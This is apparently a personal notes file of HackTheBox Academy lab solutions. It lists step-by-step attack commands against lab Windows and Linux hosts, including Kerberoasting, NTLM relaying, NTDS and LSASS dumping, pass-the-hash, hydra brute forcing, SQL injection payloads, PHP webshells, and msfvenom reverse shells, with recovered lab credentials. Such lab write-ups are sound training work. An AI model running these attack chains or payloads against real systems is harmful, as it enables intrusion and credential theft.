






# Skill Assessments

- [Skill Assessments](#skill-assessments)
  - [Crackmapexec](#crackmapexec)
    - [Credentials Found](#credentials-found)
  - [Common Services](#common-services)
    - [Assessment 1](#assessment-1)
    - [Assessment 2](#assessment-2)
    - [Assessment 3](#assessment-3)
  - [Footprinting](#footprinting)
    - [Assessment 1](#assessment-1-1)
    - [Assessment 2](#assessment-2-1)
    - [Assessment 3](#assessment-3-1)
  - [Cracking Passwords with Hashcat](#cracking-passwords-with-hashcat)
  - [Pivoting, Tunneling and Port Forwarding](#pivoting-tunneling-and-port-forwarding)
  - [Shells \& Payloads](#shells--payloads)
  - [Network Enumeration with NMAP](#network-enumeration-with-nmap)
    - [Easy Lab](#easy-lab)
    - [Medium Lab](#medium-lab)
    - [Medium Hard](#medium-hard)
  - [PowerView](#powerview)
  - [SQL Injection Fundamentals](#sql-injection-fundamentals)
  - [SQLMAP Essentials](#sqlmap-essentials)
  - [Windows Fundamentals](#windows-fundamentals)
  - [Windows Attacks \& Defense](#windows-attacks--defense)


TODOS:
- AD
  - AD Enumeration & Attack
  - Kerberos Attack
  - AD LDAP
  - Active Directory LDAP
  - DACL 1 and 2
- SQL
  - SQLmap
  - SQL Blind
- Login
  - Authentication
- General
  - Penetration testing process


- Boxes: AD Active, Resolute, Forest Cascate
  - [Walkthroughs](https://0xdf.gitlab.io/tags.html#active-directory)
  - [Good blog](https://adsecurity.org/?author=2)
- Documentation
- Boxes: Enterprise, Inception, Reddish
- [Good blog](https://0xdf.gitlab.io/)
- 
  - Active
  - Resolute
  - Forest
  - Cascade

*Command*: 

*Result:* 

## Crackmapexec
*Command*: Find all internal ips and domain names
- proxychains4 -q cme smb -M ioxidresolver

*Result*:
|       IP       |        Domain Name        | Notes |
| :------------: | :-----------------------: | :---: |
|  172.16.15.3   | dc01.INLANEFREIGHT.LOCAL  |       |
|  172.16.15.15  | ql01.INLANEFREIGHT.LOCAL  |       |
|  172.16.15.20  | dev01.INLANEFREIGHT.LOCAL |       |
| 10.129.246.181 | sql01.INLANEFREIGHT.LOCAL |       |

---

*Command*: RIDs bruteforce
- proxychains4 -q cme smb --rid-brute 10000

*Result:* Juliette

---

*Command*: Kerberosasting anonymous
- proxychains4 cme ldap --kerberoasting kerberoasting.out

*Result:* 
- Juliette:hash

---

*Command*: Crack Juliettes password
- hashcat -m 18200 hash.juliette

*Result:* juliettes:Password1

---

*Command*: User discovery with juliettes user
- cmd ldap -M user-desc

*Result:* Atul:hooters1

---

*Command*: Execution ov xp_dirtree inside mssql
- Responder
- cme mssql - xp_dirtree
  
*Result:* SQL01$::INLANEFREIGHT:hash

---

*Command*: Extrackt all text file from smb
-  proxychains4 smbmap -H 172.16.15.15 -u Atul -p 'hooters1' -r -A txt
  
*Result:* SQL01$::INLANEFREIGHT:hash
- file 172.16.15.3-DEV_sql_dev_creds.txt  
- sqldev:Sq!D3vUs3R
  
--- 

*Command*: priv escalation with mssql
- proxychains4 -q crackmapexec mssql 172.16.15.15 -u 'sqldev' -p 'Sq!D3vUs3R' --local-auth -M mssql_priv
- proxychains4 -q crackmapexec mssql 172.16.15.15 -u 'sqldev' -p 'Sq!D3vUs3R' --local-auth -M mssql_priv -o ACTIO
N=privesc

*Result:* 
- [+] sqldev can impersonate netdb (sysadmin)
- [+] sqldev is now a sysadmin! (Pwn3d!)
  
--- 

*Command*: Execute commands with the new user
- proxychains4 -q crackmapexec mssql 172.16.15.15 -u 'sqldev' -p 'Sq!D3vUs3R' --local-auth -x 'type C:\Users\Public\flag.txt'

 *Result:* Flag
 
--- 

*Command*: Read database interns
-  proxychains4 -q crackmapexec mssql 172.16.15.15 -u 'sqldev' -p 'Sq!D3vUs3R' --local-auth -q "SELECT * FROM interns.dbo.details" > details.txt

*Result:*  intern30:Welcome1
  
--- 

*Command*: Find writable share
- cme 172.16.15.15 smb --shares 
 
*Result:* DEV_INTERN - WRITE/READ

--- 

*Command*: Steal hash with drop-sc module
- cme smb 172.16.15.12 -M drop-sc
- sudo ntlmrelayx -tf relax.txt -smb2support --no-http
- sudo responder -I tun0

*Result:* 
- JAMES:hash:04apple
---

*Command*: ldap scan to DC01
- cme ldap 172.16.15.3 -u james -p '04pple' -gmsa
  
*Result:* Account: svc_devadm$    NTLM: a995d569117ec719c2402c966867569a

---

*Command*: Get 3rd flag
-  proxychains4 -q crackmapexec smb 172.16.15.20 -u 'svc_devadm$' -H a995d569117ec719c2402c966867569a -x 'type C:\Users\Administrator\Desktop\flag.txt'

*Result:* 3rd flag + found keepass file 

---

*Command*: Trigger keepass module to extract master password
-  cme smb 172.16.15.20 -u 'svc_devadm$' -H hash -M keepass_discover
-  cme smb 172.16.15.20 -u 'svc_devadm$' -H hash -M keepass_trigger -o ACTION=ADD KEEPASS_CONFIG_PATH='C:/Users/Administrator/AppData/Roaming/KeePass/KeePass.config.xml'
- cme  smb 172.16.15.20 -u 'svc_devadm$' -H hash -M keepass_trigger -o ACTION=POLL


*Result:* Found files + trigger added + exportted file create 

---

*Command*: Read /tmp/export.xml file

*Result:* Found user nick + password

---

*Command*: Extract files from shares Ccache 
- cme smb 172.16.15.3 -M spider_plus -o READ_ONLY=false

*Result:* read 4th flag + found svc_inlane.ccache + new user svc_inlaneadm

---

*Command*: change name of ccache file + create 
- mv big_file_name.ccaches svc_inlanaeadm.ccaches
- export KRB5CCNAME=/home/kalilearn/git/hacklab/academy/cme/svc_inlaneadm.ccaches

*Result:* ccache file without special characters

---

*Command*: Dump hashes with ntds
- cme smb 172.16.15.3 --use-kcache --ntds

*Result:* Found administrator hash

---

*Command*: Read flag
cme smb 172.16.15.3 -u Administrator -H 935f8a2f4fc9ec7b45c54a1044c74c08 -x 'type C:\Users\Administrator\Desktop\flag.txt'

*Result:* Flag

---

### Credentials Found
|   Username    |      Password      |            Note            |
| :-----------: | :----------------: | :------------------------: |
|   Juliette    |     Password1      |          1st flag          |
|     Atul      |      hooters1      |          kerbast           |
|    sqldev     |     Sq!D3vUs3R     | pwnd, priv esc, from share |
|   intern30    |      Welcome1      |         from mssql         |
|     james     |      04apple       |         -M drop-sc         |
|  svc_devadm$  |        hash        |  pwnd, from james, --gmsa  |
|     nick      | ASU934as0-dm23asd! |        from keepass        |
| svc_inlaneadm |    ccache file     |      admin privileges      |
| Administrator |        hash        |        using ccache        |

## Common Services
### Assessment 1
*Command:* smtp-user-enum -M RCPT -U users.list -t $TARGET -D inlanefreight.htb -p 587

*Result*: 10.129.95.172: **fiona@inlanefreight.htb** exists

---

*Command:* hydra -l 'fiona@inlanefreight.htb' -P /usr/share/wordlists/rockyou.txt -f $TARGET smtp -v -I

*Result*: login: fiona@inlanefreight.htb   password: 987654321
fiona:987654321

---

*Command:* 
1. mysql -h $TARGET -u fiona -p'987654321'
2. select 1,2,"<?php echo shell_exec($_GET['c']);?>",4 into OUTFILE 'C:/xampp/htdocs/back.php';
3. http://10.129.203.7/back.php?c=whoami
4. Start listener
5. http://10.129.203.7/back.php?c=powershell [enconded shell from here](https://www.revshells.com/)

### Assessment 2
*Command:* ./subbrute.py inlanefreight.htb -s names.txt -r resolvers.txt
*Result*: app.inlanefreight.htb

---

*Command:* dig AXFR @app.inlanefreight.htb inlanefreight.htb
*Result*: 

|           Domain           |   IP Address   |
| :------------------------: | :------------: |
|   app.inlanefreight.htb.   |  10.129.200.5  |
|   dc1.inlanefreight.htb.   | 10.129.100.10  |
|   dc2.inlanefreight.htb.   | 10.129.200.10  |
| int-ftp.inlanefreight.htb. |   127.0.0.1    |
| int-nfs.inlanefreight.htb. | 10.129.200.70  |
|   ns.inlanefreight.htb.    |   127.0.0.1    |
|   un.inlanefreight.htb.    | 10.129.200.142 |
|   ws1.inlanefreight.htb.   | 10.129.200.101 |
|   ws2.inlanefreight.htb.   | 10.129.200.102 |
|  wsus.inlanefreight.htb.   | 10.129.200.80  |

---

*Command:*
nmap -p-
**rustscan -a 10.129.38.94 -r 1-65535**

*Result:*

|     PORT      |  STATE   |   SERVICE   |
| :-----------: | :------: | :---------: |
|    22/tcp     |   open   |     ssh     |
|    53/tcp     |   open   |   domain    |
|    110/tcp    |   open   |    pop3     |
|    995/tcp    |   open   |    pop3s    |
|   2121/tcp    |   open   | ccproxy-ftp |
| **30021/tcp** | **open** | **unknown** |

---

*Command:* ftp $TARGET 30021

*Result:* get simon/mynotes.txt => wordlist, maybe passwords

---

*Command:* 
hydra -l simon -P mynotes.txt 10.129.38.94 ssh -v -I
   
*Result*: simon:8Ns8j1b!23hs4921smHzwn

### Assessment 3
*Command:* rustscan -a 10.129.203.10 -r 1-65535

*Result:* 135,445

---

*Command:* smb -L //TARGET/home

*Result:*  simon:random.txt

---

*Command:* crackmapexec smb 10.129.203.10 -u assusers.txt -p asspass.txt

*Result:* fiona:48Ns72!bns74@S84NNNSl

---

*Command:* hydra -L assuser.txt -P asspass.txt 10.129.203.10 rdp -v -I

*Result:* login: fiona   password: 48Ns72!bns74@S84NNNSl

---

*Command:* rdesktop 10.129.203.10 -u fiona -p '48Ns72!bns74@S84NNNSl'

*Result:* Conect to RDP

---

*Command:* Check who can I impersonate
1. SELECT distinct b.name
2. FROM sys.server_permissions a
3. INNER JOIN sys.server_principals b
4. ON a.grantor_principal_id = b.principal_id
5. WHERE a.permission_name = 'IMPERSONATE'
6. GO

*Result:*  John

---

*Command:* Impersonate JOHN
1. EXECUTE AS LOGIN = 'john'
2. SELECT SYSTEM_USER
3. SELECT IS_SRVROLEMEMBER('sysadmin')
4. GO

*Result:* Now I am John

---

*Command:* Identify linked servers: SELECT srvname, isremote FROM sysservers 

*Result:* LOCAL.TEST.LINKED.SRV

---

*Command:* conected to linked server: EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [LOCAL.TEST.LINKED.SRV]

*Result:* testadmin

---

*Command:* Enable xp_cmdshell
1. EXECUTE("EXECUTE sp_configure 'show advanced options', 1") AT [LOCAL.TEST.LINKED.SRV]
2. EXECUTE("RECONFIGURE") AT [LOCAL.TEST.LINKED.SRV]
3. EXECUTE("EXECUTE sp_configure 'xp_cmdshell', 1") AT [LOCAL.TEST.LINKED.SRV]
4. EXECUTE("xp_cmdshell 'whoami'") AT [LOCAL.TEST.LINKED.SRV]

*Result:* nt authority\system

---

*Command:* Read admin flag
1. EXECUTE("xp_cmdshell 'dir C:\Users\Administrator\Desktop'") AT [LOCAL.TEST.LINKED.SRV]
2. EXECUTE("xp_cmdshell 'type C:\Users\Administrator\Desktop\flag.txt'") AT [LOCAL.TEST.LINKED.SRV]

*Result:* Flag

## Footprinting
### Assessment 1
*Command:* DNS zone transfer

*Result:* Several DNS and IPs, not usefull for the task

---

*Command:* rustscan -a $TARGET-t 500 -b 1500 -- -A

*Result:*  Open $TARGET:2121

---

*Command:* ftp $TARGET -p 2121

*Result:* Access to ftp server

---

*Command:* ls -la + mget id_rsa

*Result:* Found ssh key

---

*Command:* chmod 600 id_rsa

*Result:* change mode of the file to allow ssh connection

---

*Command:* ssh -i id_rsa ceil@$TARGET

*Result:* Access to target + retrieve flag


### Assessment 2
*Command:* Port scan
- rustscan -a $TARGET -t 500 -b 1500 -- -A
  
*Result:* Found NFS

---

*Command:* Display mounts
- showmount -e $TARGET

*Result:* /TechSupport (everyone)

---

*Command:* Mount share
- mount -t nfs 10.129.202.41:/TechSupport /mnt/aufgabe2 -o nolock

*Result:* A lot of text files + found credentials alex:lol123!mD

---

*Command:* Access smbshare with credentials
- smbclient //$TARGET/devshare -U alex

*Result:* Found file with information sa:87N1ns@slls83 

---

*Command:* Access RDP with alex user
- xfreerdp /f /v:10.129.202.41 /u:alex /p:'lol123!mD' /workarea

*Result:* No access to database, found user Administrator

---

*Command:* winrm with user administrator and password found in the file important.txt
- evil-winrm -i 10.129.202.41 -u Administrator -p '87N1ns@slls83'
- xfreerdp /f /v:10.129.202.41 /u:Administrator /p:'87N1ns@slls83' +clipboard

*Result:* cmd as administrator

---

*Command:* Access to Database
- Click, click, click, find table accounts, click, click, click, right click view SCHEMA.TABLES
  
*Result:* Found table devacc

---

*Command:* SELECT * FROM accounts.dbo.devsacc where name = 'HTB';

*Result:* Flag

### Assessment 3

*Command:* Port scan
- rustscan -a $TARGET -t 500 -b 1500

*Result:* Found TCP: 22,110,143,993,995

---

*Command:* IMAP/POP3 Capabilities
- nmap -Pn -p110,995 -sV -sC $TARGET --script "pop3-capabilities or pop3-ntlm-info"
- nmap -Pn -p143,993 -sV -sC $TARGET --script imap*
  
*Result:*
- pop3-capabilities: AUTH-RESP-CODE STLS TOP UIDL RESP-CODES SASL(PLAIN) USER 
- pop3-capabilities: SASL(PLAIN) TOP UIDL RESP-CODES USER AUTH-RESP-CODE PIPELINING CAPA
- imap-capabilities: IMAP4rev1 more ID capabilities LITERAL+ IDLE STARTTLS have LOGIN-REFERRALS SASL-IR post-login listed Pre-login OK ENABLE AUTH=PLAINA0001
- imap-capabilities: IMAP4rev1 ID capabilities LITERAL+ IDLE more have AUTH=PLAINA0001 SASL-IR post-login listed Pre-login OK ENABLE LOGIN-REFERRALS
---

*Command:* Pop3 brute force
- nmap -Pn -p110,995 -sV -sC $TARGET --script "pop3-brute"
  
*Result:* No result, either with other wordlists

---

*Command:* UDP scan after hint
- sudo nmap -Pn -sU $TARGET --min-rate 5000

*Result:* 161/udp   open   snmp

---

*Command:* Search community string, minimum rate
- onesixtyone -c /usr/share/seclists/Discovery/SNMP/snmp.txt $TARGET-w 100

*Result:* $TAREGET **[backup]** Linux NIXHARD 5.4.0-90-generic #101-Ubuntu SMP Fri Oct 15 20:00:55 UTC 2021 x86_64

---

*Command:* snmpwalk -v2c -c backup 10.129.202.20

*Result:* Found username, domain, password

```
"Admin <tech@inlanefreight.htb>"
"tom NMds732Js2761"
```

---

*Command:* Access to IMAP + login to email + read email
- nc -nv $TARGET 143
- a1 LOGIN tom NMds732Js2761
- f fetch 1:1 (BODY[HEADER.FIELDS (Subject)]) : Subject: KEY
- f FETCH 1 BODY[text] 
  
*Result:* Found 1 email + private ssh key

---

*Command:* Chmod of sss key + login to ssh with key
- chmod +600 id_rsa
- ssh tom@$TARGET -i id_rsa
  
*Result:* Access to target with tom's key

---

*Command:* history command

*Result:* found mysql

---

*Command:* Access mysql + read flag
- mysql -u tom -p
- show databases; 
- show columnns from users;
- select * from users where username = 'HTB'; 
  
*Result:* Found database users, found flag


## Cracking Passwords with Hashcat

*Command:* Identify hash mode + crack it
- hashid 0c67ac18f50c5e6b9398bfe1dc3e156163ba10ef -m
- hashcat -a 0 -m 100 question1 rockyou.txt

*Result:*  format + password = answer 1 & 2

---

*Command:* Identify hash mode + crack
- cat question2 | hashid -m
- hashcat -a 0 -m 5600 combmd5 rockyou.txt

*Result:* hash mode + Password = answer 3

---

*Command:* Identify hash + crack
- hashid did not return a value, so online search: 13100
- hashcat -a 0 -m 13100 question4 rockyou.txt

*Result:* hash mode + password = answer 4

---

*Command:* Identify hash + crack
- cat question5 | hash id -m
- hashcat -a 0 -m 2100 question4 rockyou

*Result:* Mode + password = answer 5

---

*Command:* Created an own potfile just for this question + crack hash
- hashcat -a 0 -m 1000 -g 1000 ../DC01.inlanefreight.local.ntds /usr/share/wordlists/rockyou.txt --username -w 3 -O --potfile-path  potfile_question6.txt

*Result:* Found passwords

---

*Command:* Used audit too to find statistical data about the hashes/passwords
- python3 dpat.py -c ../potfile_question6.txt -n ../DC01.inlanefreight.local.ntds

*Result:* Found most frequent password = answer 6

## Pivoting, Tunneling and Port Forwarding


*Command:* Access webadmin home folder + found/extracted credentials + found/extracted private key
- ls -la /home/webadmin

*Result:* User home folder + Credential = Flag 1 and 2



---

*Command:* Ping sweep

*Result:* Found another host = Flag 3



---

*Command:* Dynamic port forwarding to found ip + proxychains xfreerdp to found user
- ssh -D 9050 webadmin@10.129.201.198 -fN -i id_rsa
- proxychains4 xfreerdp /v:172.16.5.35 /u:'mlefay' /p:'Plain Human work!' +clipboard

*Result:* Flag 4



---

*Command:* Dump lsass from target 2 + read dump file
- TaskManager => Search for  "Local Security Authority Process" ==> Dump Process ==> Transfer to Attacker
- pypykatz lsass minidump file.dmp
  
*Result:* Found new user:password = Flag 5

---

*Command:* ipconfig showed another interface + ping sweep gave another addresses
- ipconfig all
- for /L %i in (1,1,255) do @ping -n 1 -w 172.16.5.%i >> nul && echo 172.16.5.%i is up
  
*Result:* Ethernet0:172.16.5.35, Ethernet1:172.16.6.35 + 172.16.6.25,172.16.6.45




---

*Command:* Port forwarding from Target 3 to Target 2 + Connect with xfreerdp
- netsh.exe interface portproxy add v4tov4 listenport=8080 listenaddress=172.16.5.35 connectport=3389 connectaddress=172.16.6.25
  - netsh.exe interface portproxy show all
- proxychains4 -q xfreerdp /v:TARGET2:8080 /u:'inlanefreight.local\vfrank' /p:'Imply wet Unmasked!' +clipboar

*Result:* Target2:8080 ==> Target3:3389 = Flag 6






---

*Command:* No more pivot, just checking what is around this pc

*Result:* Flag 7

## Shells & Payloads 

*Command:* Login with username:password found on a .txt file in the desktop

*Result:* Server Info = Question 1

---

*Command:* Upload .war file and create listener
- msfvenom -p java/jsp_shell_reverse_tcp LHOST 1$INTERNAL_IP LPORT=4444 -f war -o shell.war
- msfconsole
  - use exploit/multi/handler
  - use payload java/java_shell_reverse_tcp

*Result:* Access to target = question 2

---

*Command:* Find ip in the /etc/hosts + scan with nmap
- cat /etc/hosts
- nmap -sC -sV -Pn 172.16.1.12
  
*Result:* Distro = question 3

---

*Command:* Inside the file

*Result:* question 4

---

*Command:* Upload module to metasploit + use exploit
- searchsploit -m 50064
- mkdir -p msf4/modules/exploit/php/webapps
- cp 50064.rb msf4/modules/exploit/php/webapps
- msfconsole -q + use 50064 + set VHOST/RHOST/PASSWORD/USERNAME
  
*Result:* Question 5 

---

*Command:* Network scan reveals a keyword for the exploit
- nmap -sC -sV -Pn 172.16.1.13

*Result:* An important configuration name = Question 6

---

*Command:* Use metasploit module EternalBlue
- use exploit/windows/smb/ms17_010_psexec
- set LHOST,RHOST + run

*Result:* Access to target = question 7

## Network Enumeration with NMAP

### Easy Lab
*Command:* Nmap scan without name resolution and disable ICMP
- sudo nmap -Pn -T2 -F -sS -e tun0 10.129.2.209 -n --packet-trace --disable-arp-ping
  - -Pn = No ICMP
  - -T2 = Time template 2 (polite)
  - -n = no name resolution
  - --packet-trace = debug purpose to see the flow of the packet
  - --disable-arp-ping = no ARP Ping
  - -e = from interface withn the same network

*Result:* OS name revelead witout being blocked

### Medium Lab
*Command:* nmap scan to specific port with UDP scan
- sudo nmap -Pn -sSU -sV -p53 $TARGET --packet-trace --disable-arp-ping -S $ATTACKER
  - -sSU = UDP scan
  - -p53 = DNS port
- Only with Pwnbox available

*Result:* Flag

### Medium Hard

*Command:* Found open ports = not yet blocked
- sudo nmap -Pn -sV 10.129.214.112 --packet-trace --disable-arp-ping -S 10.10.16.66 -vvv
  
*Result:* 50000/tcp - filtered

---

*Command:* Scanned specific port using port 53 as source
- sudo nmap -Pn -n -sS -sV -p50000 10.129.142.228 --packet-trace --disable-arp-ping -vv --source-port 53

*Result:* 50000/tcp - open

---

*Command:* Interact with service of port 50000 using nc
- sudo nc -nv --source-port 53 $TARGET 50000

*Result:* Flag

## PowerView

*Command:* Load powerview
- . .\PowerView.ps1
  
*Result:* PowerView cmds can be used

---

*Command:* Use Conversion table: 
- Get-ADDomain | fl Name,DomainMode

*Result:* 5 = Windows 2012

---

*Command:* Get-DomainUser -Identity rachel.flemmings

*Result:* SID

---

*Command:* Get-DomainGpo -ComputerName NUM2-MS01| Select-Object displayname

*Result:* Disable Defender

---

*Command:* List shares
- Get-NetShare -ComputerName ENUM2-MS01

*Result:* Foundshare Payroll

---

*Command:* Connect to share + access file
- net use x : "\\ENUM2-MS01\Payroll"
- pushd \\ENUM2-MS01\Payroll
- type share.txt
  
*Result:* Flag

---

*Command:* Get-DomainComputer | Select-Object name,description | Where {$_.description -ne $null}

*Result:* Password

---

*Command:* Get-DomainGroup -Identity "Citrix AdminS"

*Result:* Name of the manager


## SQL Injection Fundamentals

*Command:* Login bypass, source PayloadAllThethings
- ' or 1=1 limit 1 -- -+

*Result:* Logged in

---

*Command:* Identify how manu columns 
- A'ORDER BY 5-- -

*Result:* Five columns

---

*Command:* Identify databases
- A'UNION SELECT 1,SCHEMA_NAME,@@version,4,5 FROM INFORMATION_SCHEMA.SCHEMATA-- -

*Result:* ilfreight, backup

---

*Command:* Current databases
- A'UNION SELECT 1,user(),@@version,4,5-- -
  
*Result:* ilfreight

---

*Command:* Tables at ilfreight + backup
- A'UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4,5 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='ilfreight'-- -
- A'UNION SELECT 1,TABLE_NAME,TABLE_SCHEMA,4,5 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema='backup'-- -
- 
*Result:* users, payment + admin_bk

---

*Command:* Columns at admin_bk
- A'UNION SELECT 1,COLUMN_NAME,TABLE_NAME,TABLE_SCHEMA,5 FROM INFORMATION_SCHEMA.columns WHERE table_schema='backup'-- -

*Result:* username,password

---

*Command:* Content of table admin_bk

*Result:* Username:password

---

*Command:* Current user with super_privilege
- 'UNION SELECT 1,super_priv,3,4 FROM mysql.user-- -

*Result:* Super privilege

---

*Command:* Read file + FILE
- 'UNION SELECT 1,LOAD_FILE('/etc/passwd'),3,4,5-- -
- 'UNION SELECT 1,grantee,privilege_type,4 FROM information_schema.user_privileges-- -
  
*Result:* Access to /etc/passwd + write files

---

*Command:* We can write files
- 'UNION SELECT "",'blablabla',"","","" INTO OUTFILE '/var/www/html/dashboard/proof.txt'-- -

*Result:* $TARGET:PORT/dashboard/proof.txt = our file

---

*Command:* Upload webshell
- 'UNION SELECT "","","<?php system($_GET['cmd']); ?>","","" into outfile "/var/www/html/dashboard/shell.php"-- -

*Result:* Access to shell = http://94.237.58.188:38760/dashboard/shell.php?cmd=whoami

---

*Command:* find flag + read file
- http://94.237.58.188:38760/dashboard/shell.php?cmd=ls+/
- http://94.237.58.188:38760/dashboard/shell.php?cmd=cat+/flag_cae1dadcd174.txt
  
*Result:* Flag

---

## SQLMAP Essentials
*Command:* Add * in the id field of the post body + send to sqlmap
- sqlmap -r request.txt

*Result:* Detected MySQL

---

*Command:* Running with suggestion of sqlmap
- sqlmap -r skills.txt --tamper=between --batch --dump -T final_flag

*Result:*  Flag

## Windows Fundamentals

*Command:* Create share on the ui + Click on authorization
  
*Result:* Name of the group of has read access

---

*Command:* Right click on the new folder + Properties
  

---

*Command:* Get-Service | where-object {$_.DisplayName -like "*upd*"}
  
*Result:* name of service

---

*Command:* wmic command
-  Get-WmiObject win32_useraccount | Select name,sid
  
*Result:* SID of all users

---

*Command:* get-localgroup | select name,sid
  
*Result:* SID of all groups

## Windows Attacks & Defense

*Command:* 
  
*Result:* 

---

*Command:* 
  
*Result:* 

---

*Command:* 
  
*Result:* 

---

*Command:* 
  
*Result:* 

---

